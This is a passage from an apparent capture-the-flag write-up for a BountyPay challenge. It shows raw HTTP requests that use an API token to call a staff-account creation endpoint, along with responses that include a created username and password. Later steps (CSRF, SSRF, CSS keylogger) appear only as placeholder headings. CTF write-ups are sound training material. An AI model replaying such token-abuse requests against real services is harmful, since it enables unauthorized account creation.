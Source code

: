 After I saw this, I tried to do the same with the following POST request: 

```
POST /api/staff?firstParam=UGFydFRocmVlQWN0aXZpdHk%3D HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Length: 23
Content-Type: application/x-www-form-urlencoded

staff_id=STF:84DJKEIP38
```

But that resutled with the following reponse: 

```
HTTP/1.1 409 Conflict
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 03 Jun 2020 13:15:29 GMT
Content-Type: application/json
Connection: keep-alive
Content-Length: 39

["Staff Member already has an account"]
```

Now I went back to Sandra's id and tried her `staff_id`: 

```
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

staff_id=STF:8FJ3KFISL3&staff_name=1
```

Response:

```
HTTP/1.1 201 Created
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 03 Jun 2020 19:42:33 GMT
Content-Type: application/json
Connection: keep-alive
Content-Length: 110

{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```

### Step 10 - CSRF

TBD 
### Step 11 - Parameter Pollution
TBD 
### Step 12 - Privilege Escalation via CSRF
TBD 
### Step 13 - Information Disclosure (CEO username & password)
TBD 
### Step 14 - SSRF
TBD 
### Step 15 - CSS Keylogger via SSRF
TBD 